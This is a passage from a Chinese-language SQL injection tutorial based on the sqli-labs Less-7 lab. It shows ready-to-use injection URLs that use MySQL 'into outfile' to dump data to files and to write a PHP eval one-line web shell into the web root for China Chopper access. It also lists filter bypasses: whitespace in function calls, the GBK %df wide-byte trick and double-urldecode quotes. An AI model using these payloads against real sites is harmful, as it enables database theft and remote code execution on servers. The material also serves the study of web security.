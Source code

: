 我们先直接在服务器端执行导出命令

```
mysql> select * from mysql.user into outfile "C:\\sqlfile\\1.txt";
Query OK, 4 rows affected (0.00 sec)
```
可以看到,返回的是成功信息不是一张表,所以sql注入的回显很可能是报错.

我们先试一下sql注入查询当前数据库

```
?id=1')) union select 1,2,database()  into outfile "C:\\sqlfile\\22.txt" --+
```
返回了报错页面

```
You have an error in your SQL syntax //这个提示和之前的所有错误页面相同
```
我们切换到服务端查看路径,已经有`22.txt这个文件了`并且文件内查出了数据库,之后的其他字段,内容查询就和普通的有回显的sql注入相同,不需要盲注.

**我们分析一下`into outfile`**
在`my.ini`文件内添加`secure_file_priv`变量的时候,我们的路径值是形如`"C:\test\tal"`这样的路径.
在sql注入使用`into outfile`时指定的是`"C:\\test\\tal\\test1.txt"`这样的值,这里使用单引号也可以,即使是单引号注入的情况,但是最好和`my.ini`的单双引号符号统一,非常重要的是,这里的路径一定要用双斜杠,不然语法是错的.

## 文件取回本地
这里把文件输出路径写死了,所以导出的文件无法访问.如果没有写死,就可以将文件输出到站点下.这样我们就可以这样写入并访问一句话木马

```
?id=1')) union select 1,'<?php eval($_POST["997"]);?>',3  into outfile "C:\\soft\\phpStudy\\WWW\\sqli-labs\\Less-7\\muma.php" --+
```
然后使用中国菜刀连接,就可以查看下载到服务器的所有文件.


# 数据库特性绕过
部分参考 麻薯:https://uuzdaisuki.com/2018/04/01/sql%E6%B3%A8%E5%85%A5%E4%B8%AD%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95/

## 一些函数绕过
### 括号之间添加空格绕过
一些函数可以在括号之间添加空格,比如`ascii()`再ascii后面加一个空格
`ascii ()` `ascii/**/()`也许可以绕过
## 单引号绕过
### gbk款字节绕过
gbk编码在单引号前面加一个%df即可

### 二次urldecode注入

web程序进行参数过滤时，很多采用反斜杠来转义单引号等危险参数的方法。如果某处使用了urldecode或者rawurldecode函数，会导致二次解码生成单引号。
如我们提交的是/test.php?id=1%2527，因为没有提交单引号没有触发过滤，%25的解码结果是%。则第一次解码之后是/test.php?id=1%27，如果程序里面再次使用urldecode解码id参数的话，就会生成/test.php?id=1’
